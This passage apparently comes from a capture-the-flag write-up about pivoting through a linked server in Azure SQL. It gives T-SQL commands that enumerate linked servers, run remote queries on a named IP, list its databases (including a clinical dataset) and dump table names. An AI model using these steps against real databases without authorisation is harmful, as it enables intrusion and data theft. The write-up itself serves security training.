 ## Linked server

> Linked servers in Azure SQL Server provide various benefits, including unified access to data, consolidated data management and reporting, data migration, securing and governing access, etc. They allow you to connect to and access data from different databases even if they are not on the same machine. This means you can run queries and integrate data across multiple sources as if they were part of a single system.
> 

Let’s see if `SQLANALYSIS02` has a companion or whether it’s billy-SQL no mates. To check for linked servers we can run the following command:

```sql
EXEC sp_linkedservers;
```

![img]({{ '/assets/images/flag5/Untitled 6.png' | relative_url }}){: .center-image }

Success - it looks like there is indeed a linked server that `SQLANALYSIS02` speaks to and its IP address is `34.74.254.28`. Let’s see if we can query this server. The way we do this is using the following format - `EXEC ('SQL command') AT [IP address of linked server];`. For example:

```sql
EXEC ('SELECT @@VERSION;') AT [34.74.254.28];
```

![img]({{ '/assets/images/flag5/Untitled 7.png' | relative_url }}){: .center-image }

Cool - we can run commands on the linked server. This opens up another attack surface for us to explore. Let’s have a look at what databases it’s running:

```sql
EXEC ('SELECT name FROM sys.databases;') AT [34.74.254.28];
```

![img]({{ '/assets/images/flag5/Untitled 8.png' | relative_url }}){: .center-image }

We’ve found the following databases - the ones of interest in the first instance are `bulkimport` and `clinical-dataset1`:

```bash
master              
tempdb              
model               
msdb                
bulkimport          
clinical-dataset1   
```

Let’s dump tables for `bulkimport:`

```sql
EXEC ('SELECT SCHEMA_NAME(schema_id) + ''.'' + name AS TableName FROM bulkimport.sys.tables ORDER BY schema_id, name;') AT [34.74.254.28];

```
